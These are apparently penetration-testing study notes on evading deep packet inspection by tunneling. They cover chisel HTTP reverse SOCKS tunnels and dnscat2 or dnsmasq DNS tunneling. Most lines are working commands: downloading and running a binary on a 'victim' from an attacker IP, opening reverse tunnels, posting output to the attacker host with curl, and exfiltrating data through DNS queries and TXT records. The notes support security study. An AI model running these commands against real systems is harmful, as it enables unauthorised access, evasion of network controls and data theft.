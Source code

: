 # Reason use
1. Deep Packet Inspection (app layer 7) of Outbound is inplemented
2. Only some format/protocol of data can use e.g. HTTP, DNS
3. Use tunneling

# HTTP Tunneling
## Chisel 
1. choose correct version & architecture: https://github.com/jpillora/chisel/releases
2. transfer chisel to victim ``` bash -c 'wget "http://192.168.118.4/chisel" -O /tmp/chisel && chmod +x /tmp/chisel' ```
3. kali host: ``` chisel server --port 8080 --reverse ```
4. run chisel client in victim: ``` /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 & ```
5. run with error output: ``` /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/ ```
6. Debug with tcp packet anaylsis: ``` sudo tcpdump -nvvvXi tun0 tcp port 8080 ```
7. [OR] check status of socks (same as be4): ``` ss -ntplu ```
8. use ncat w/ Proxycommand to connect ``` ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215 ``` 

### Support local port / dynamic port fwing 
- local version like this (in victim) ``` /tmp/chisel client 192.168.45.225:8080 R:1080:10.4.225.215:8008  ```
- check this doc: https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/ 


# DNS Tunneling

## dnscat2
1. listen if success by traffic tcp ``` sudo tcpdump -i ens192 udp port 53 ```
2. dns server: ``` dnscat2-server feline.corp ```
3. victim: ``` ./dnscat feline.corp ```
4. open window for us to interact dns server & 1 = the window of connected (could be others so run ``` window ``` first) : ``` window -i 1 ```

## Logic behind
- NOT STEALTHY since so many packet 
- UDP 53
- reg a sussy DNS with a wanted domain name ```feline.corp ``` (this domain is important as if only original dns cant find then will redirect to you)
- check victim current Dns server: ``` resolvectl status ```
- run in rogue DNS server: ``` sudo dnsmasq -C dnsmasq.conf -d ``` 
- run in victim ``` nslookup exfiltrated-data.feline.corp ``` & check ``` sudo tcpdump -i ens192 udp port 53 ``` to see if tcp have query record
- Smuggling data thru TXT record
